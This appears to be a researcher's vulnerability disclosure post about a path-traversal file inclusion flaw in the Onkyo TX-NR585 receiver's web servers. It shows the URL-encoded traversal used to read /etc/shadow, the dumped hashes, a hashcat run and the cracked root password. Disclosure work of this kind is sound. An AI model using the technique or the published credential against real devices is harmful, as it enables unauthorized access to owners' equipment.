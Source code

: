 ```yaml
---
layout: post
title: LFI Within Onkyo TX-NR585 Web Interface
gh-badge:
  - star
  - fork
  - follow
tags:
 - Local File Inclusion 
 - exploit
 - onkyo
 - web
comments: true
published: true
date: '2020-04-27'
---
```


Vendor: https://www.onkyousa.com/

Known Affected Versions:
TX-NR585 Firmware Version 1000-0000-000-0008-0000

### Description:
Within the Onkyo TX-NR585 Radio Reciever there is a local file inclusion vulnerability that can be exploited on the built in webserver(s) on the device. A weakly implemented filter can be bypassed with basic URL encoding techniques (%2e%2e%2f) to expose sensitive files on the system


## Steps to reproduce:

* Locate the Onkyo Reciever on your network 

* Access any of the web servers running on the device, several can be found by running a simple nmap scan:

```
root@pvris:~#nmap -sT -vvv 192.168.0.80
Reason: 993 no-responses
PORT      STATE SERVICE        REASON
80/tcp    open  http           syn-ack
5000/tcp  open  upnp           syn-ack
8008/tcp  open  http           syn-ack
8009/tcp  open  ajp13          syn-ack
8080/tcp  open  http-proxy     syn-ack
8888/tcp  open  sun-answerbook syn-ack
10001/tcp open  scp-config     syn-ack

```

Any port accessible above is running a webserver that is vulnerable to Local File Inclusion.

* Capture a HTTP Request to the reciever in Burpsuite and send it into Repeater with Control + R

![3d04010747ebc5c102416244e582fc56.png](:/92f35b05e91f48f5831be072e57b13fb)

* Modify the URL to %2e%2e%2f to traverse back a directory, creating several sets of these, we are able to hit the root of the file system, from there we can then attempt to disclose a sensitive file (such as /etc/shadow as seen in the screenshot below)

![f4f5cded13d2186856e436a0db551891.png](:/047c71ec6e2443dfa39dd6418957ac68)

* Sucess, we have disclosed a sensitive file on the system. LFI has been achieved.

* For fun, now we have the password hashes out of /etc/shadow, lets try and crack it!

```
root:$6$cUc04nYlQ1/HUOZz$3kbNjY7RyuznIr1VotKXo.t73ws5sF8GFeE7wgMPPO/TubEbYc59EErqg4MDHyVsmTGxVi279wmJZySHjGT3H0:16610:0:99999:7:::
daemon:*:16610:0:99999:7:::
bin:*:16610:0:99999:7:::
sys:*:16610:0:99999:7:::
sync:*:16610:0:99999:7:::
games:*:16610:0:99999:7:::
man:*:16610:0:99999:7:::
lp:*:16610:0:99999:7:::
mail:*:16610:0:99999:7:::
news:*:16610:0:99999:7:::
uucp:*:16610:0:99999:7:::
proxy:*:16610:0:99999:7:::
www-data:*:16610:0:99999:7:::
backup:*:16610:0:99999:7:::
list:*:16610:0:99999:7:::
irc:*:16610:0:99999:7:::
gnats:*:16610:0:99999:7:::
nobody:*:16610:0:99999:7:::
chrome:!:16610:0:99999:7:::
messagebus:!:16610:0:99999:7:::
ntp:!:16610:0:99999:7:::
avahi-autoipd:!:16610:0:99999:7:::
```

Loading the root password hash into hashcat, we are able to crack it relatively quickly, in about a minutes time:

```
.\hashcat.exe -m 1800 -a 0 ..\onkyo.hash E:\Wordlists\rockyou.txt
hashcat (v5.1.0-1770-g2c94c003) starting...

$6$cUc04nYlQ1/HUOZz$3kbNjY7RyuznIr1VotKXo.t73ws5sF8GFeE7wgMPPO/TubEbYc59EErqg4MDHyVsmTGxVi279wmJZySHjGT3H0:morimori

Session..........: hashcat
Status...........: Cracked
Hash.Name........: sha512crypt $6$, SHA512 (Unix)
Hash.Target......: $6$cUc04nYlQ1/HUOZz$3kbNjY7RyuznIr1VotKXo.t73ws5sF8...jGT3H0
Time.Started.....: Mon Apr 27 00:58:27 2020 (33 secs)
Time.Estimated...: Mon Apr 27 00:59:00 2020 (0 secs)
Guess.Base.......: File (E:\Wordlists\rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    18675 H/s (10.38ms) @ Accel:1 Loops:64 Thr:1024 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 614400/14344384 (4.28%)
Rejected.........: 0/614400 (0.00%)
Restore.Point....: 599040/14344384 (4.18%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4992-5000
Candidates.#1....: poptart15 -> mizzmoss
Hardware.Mon.#1..: Temp: 50c Fan:  0% Util: 99% Core:1987MHz Mem:3802MHz Bus:8

Started: Mon Apr 27 00:58:00 2020
Stopped: Mon Apr 27 00:59:01 2020
```

Interesting, the cracked password is morimori, which is a Japanese word: もりもり. This actually makes a bit of sense seeing that Onkyo is a Japanese company.
